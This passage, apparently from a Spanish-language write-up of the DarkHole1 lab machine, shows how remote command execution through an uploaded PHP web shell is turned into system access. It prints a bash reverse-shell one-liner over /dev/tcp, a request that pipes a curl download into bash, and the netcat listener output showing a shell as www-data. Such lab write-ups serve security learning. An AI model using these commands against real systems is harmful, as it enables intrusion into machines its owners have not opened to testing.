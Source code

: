 Puede ser que el código se esté interpretando, vamos a intentar ejectuar **whoami**:

![](/imagenes/DarkHole1/darkhole1_19.png)

Vemos que tenemos ejecución remota de comandos, vamos a crear entonces una conexión hacia nuestra máquina para ganar acceso al sistema.

Vamos a compartir un archivo index.html malicioso, que haciendo uso del /dev/tcp nos envíe una conexión hacia nuestra máquina, estaremos compartiendo este archivo haciendo uso de un servidor http con python, mientras estaremos conexión con netcat. Dentro del parámetro **cmd** haremos una petición a nuestro recurso y lo vamos a pipear con bash para así ejecutar su contenido.

El archivo html malicioso es este:

```
#!/bin/bash
bash -i >& /dev/tcp/192.168.233.128/1234 0>&1
```

Vamos a dejar abiertos el servidor en python y el netcat.

Vamos a ingresar la petición a la página:
```
192.168.233.129/upload/shell.phtml?cmd=curl%20192.168.233.128%20|%20bash
```
Si vemos nuestro servidor en python:
```
python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
192.168.233.129 - - [20/Feb/2023 15:21:53] "GET / HTTP/1.1" 200 -
```

Vemos la petición get, y si vemos netcat:

```
nc -nvlp 1234
listening on [any] 1234 ...
connect to [192.168.233.128] from (UNKNOWN) [192.168.233.129] 60212
bash: cannot set terminal process group (88930): Inappropriate ioctl for device
bash: no job control in this shell
bash-5.0$ whoami
whoami
www-data
```
Hemos ganado acceso al sistema, sin embargo, no tenemos privilegio alguno, vamos a tener que escalar.
